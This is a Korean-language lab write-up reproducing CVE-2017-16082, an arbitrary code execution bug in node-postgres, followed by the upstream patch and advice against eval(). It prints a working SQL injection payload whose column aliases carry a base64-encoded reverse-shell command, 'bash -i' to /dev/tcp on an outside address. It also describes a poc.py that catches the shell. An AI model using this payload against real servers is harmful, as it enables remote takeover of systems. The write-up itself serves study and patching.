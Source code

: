 # node-postgres 임의 코드 실행 취약점（CVE-2017-16082）

**Contributors**

-   [서현규(@wh1te4ever)](https://github.com/wh1te4ever)

<br/>

## 취약점 원리

node-postgres는 PostgreSQL로부터 반환된 "Row Description" 유형의 패킷을 처리할 때 필드 이름을 코드에 연결합니다.<br/>
적절한 이스케이프(Escape) 처리가 이루어지지 않아 특수하게 구성된 필드 이름이 코드의 단일 인용부호('') 제한을 우회하여 코드 실행 취약점을 유발할 수 있습니다.

## 취약점 재현

환경 구성 및 실행:

```
docker compose build
docker compose up -d
```

성공적으로 실행된 후에는 `http://localhost:3000/?id=1`에 방문하여 id가 1인 사용자 정보를 볼 수 있습니다:

![](img/1.png)

사용되는 데이터베이스는 postgres이며, sqlmap을 사용하여 여기에 삽입점이 있음을 확인할 수 있습니다:
![](img/2.png)

따라서 여기에서 node-postgres의 코드 실행 취약점이 존재합니다.
<br/>
실행하려는 명령어인 `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`을 작성한 다음, 적절히 분할(각 세그먼트의 길이가 64 문자를 초과하지 않도록)해서 다음 Payload를 만듭니다:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

위 페이로드를 URL 인코딩해서 전송합니다:：

![](img/3.png)

명령이 성공적으로 실행되면 셸을 얻을 수 있습니다：

![](img/4.png)

## poc.py
로컬 시스템에서 TCP 포트 21에서 수신 대기하는데, 그전에 비동기로 페이로드가 포함된 URL에 GET 요청을 날려 쉘을 가져오는 코드입니다.
![](img/5.png)

## Patch
https://node-postgres.com/announcements#2017-08-12
<br/>
https://github.com/graphile/graphile-engine/pull/48
<br/>
사용자가 정의한 열 별칭이 정밀하게 만들어진 정규식과 일치하는지 확인합니다.</br>
GraphQL에서 다음과 같은 코드로 유효성 검사를 수행하도록 개선했습니다.
```
select(exprGen: SQLGen, alias: RawAlias) {
    this.checkLock("select");
    if (typeof alias === "string") {
      // To protect against vulnerabilities such as
      //
      // https://github.com/brianc/node-postgres/issues/1408
      //
      // we need to ensure column names are safe. Turns out that GraphQL
      // aliases are fairly strict (`[_A-Za-z][_0-9A-Za-z]*`) anyway:
      //
      // https://github.com/graphql/graphql-js/blob/680685dd14bd52c6475305e150e5f295ead2aa7e/src/language/lexer.js#L551-L581
      //
      // so this should not cause any issues in practice.
      if (/^[_A-Za-z][_0-9A-Za-z]*$/.test(alias) !== true) {
        throw new Error("Disallowed alias.");
      }
    }
    this.data.select.push([exprGen, alias]);
  }
```

## 요약
- 해당 취약점으로 공격자는 서버에서 임의의 코드를 실행할 수 있고 작동되고 있는 서버의 쉘을 가져올 수도 있습니다.
- [이 링크](https://github.com/brianc/node-postgres/issues/1408#issue-249850516)를 참고하면, eval() 함수를 사용하면서 사용자의 데이터를 파싱될때 발생되는 취약점이었습니다.
- eval() 함수를 사용하면 악성적인 코드를 실행할 수 있기에 사용을 자제하거나 항상 사용되기 전에 유효성 검사를 추가시킬 고려, 검토가 필요합니다.
- <b>eval() is evil...<b/>

## Reference
- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://joker-vip.github.io/2021/11/11/node-postgres%20代码执行漏洞
- https://github.com/nulldreams/CVE-2017-16082
- https://buaq.net/go-33738.html
- https://node-postgres.com/announcements#2017-08-12
- https://github.com/brianc/node-postgres/issues/1408
- https://github.com/graphile/graphile-engine/pull/48